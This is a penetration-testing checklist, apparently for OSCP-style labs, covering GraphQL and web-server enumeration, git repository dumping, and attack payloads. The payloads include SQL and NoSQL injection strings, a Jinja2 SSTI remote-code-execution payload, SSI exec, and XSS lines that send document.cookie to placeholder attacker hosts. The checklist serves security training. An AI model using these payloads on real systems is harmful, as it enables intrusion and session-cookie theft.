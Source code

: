 ### GraphQL:

* [ ] Use inql to dump schemas: `inql -t http://192.168.206.201/graphql -o inql-dump` (https://github.com/doyensec/inql)

### HTTP/HTTPS

* [ ] Nikto
* [ ] Davtest
* [ ] Robots.txt
* [ ] /cgi-bin/
* [ ] Directory enumeration
  * [ ] Recursion
  * [ ] Extensions `/usr/share/seclists/Fuzzing/extensions-most-common.fuzz.txt`
* [ ] Vhost enumeration
* [ ] GIT
  * [ ] Download all files `wget -r http://host.com`
  * [ ] Check changes `git diff`
  * [ ] List files: `git ls-files`
  * [ ] Check logs: `git log`
  * [ ] Show patches: `git log -p`
  * [ ] Show specific commit: `git show 5eba8ab3b718a6ab6610186be934ba214e228a58`
  * [ ] Navigate previous commits: `git checkout 94dd0547f4222e5f93674cc551dbcf98589fe668`
  * [ ] Show tree's filenames: `git cat-file -p master^{tree}`
  * [ ] Cat file: `git cat-file -p 5a959db874e0174aa93a1f7eecaf55a5d95f6e11`
  * [ ] Set git identity (to commit files) `git config --global user.name "user"; git config --global user.email "user@email.(none)"`
  * [ ] Commit: `git add -A; git commit -m "pwn"`
  * [ ] Git shell interactions: `GIT_SSH_COMMAND='ssh -i id_rsa -p 43022' git clone git@192.168.120.204:/git-server` (see **Hunit** on Proving Grounds)
* [ ] Public exploits for application
* [ ] Fuzz .php files
  * [ ] Test with FUZZ = /etc/passwd:
* [ ] SQL Injections: `' or 1=1 -- - # //`
* [ ] NoSQL Injections: `username[$ne]=admin&password[$ne]=admin&login=login`
* [ ] SSTI: `${{<%[%'"}}%\.` (https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)
  * [ ] RCE: `{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`
  * [ ] memcached: `memccat --server=192.168.206.59 session:0c4c0507-a016-41c5-9896-0854a93f49d1` (see Shifty box on PG)
* [ ] SSI (.shtml, .stm): `<!--#exec cmd="ls" -->` (more info: https://owasp.org/www-community/attacks/Server-Side\_Includes\_(SSI)\_Injection)
*   [ ] XSS:

    * [ ] Img tag: `<img src='http://evil/?c='+document.cookie>`
    * [ ] Html file injection:

    ```html
    	<html>
    	<body>
    	<script>
    	var r = new XMLHttpRequest();
    	r.open("GET", "http://KALI-IP/" + document.cookie);
    	r.send();
    	</script>
    	</body>
    	</html>
    ```
* [ ] Default credentials:
  * [ ] Default user: `admin, root, application name (joomla, wp_admin), machine/system name`
  * [ ] Default pass: `admin, root, toor, password, 123456`
  * [ ] Default creds list: https://www.qualys.com/docs/qualys-vm-scanning-default-credentials.pdf
* [ ] Brute force login forms (watch for /admin > /admin/ 301s)
  * [ ] use cewl to generate wordlists `cewl -m 5 http://...`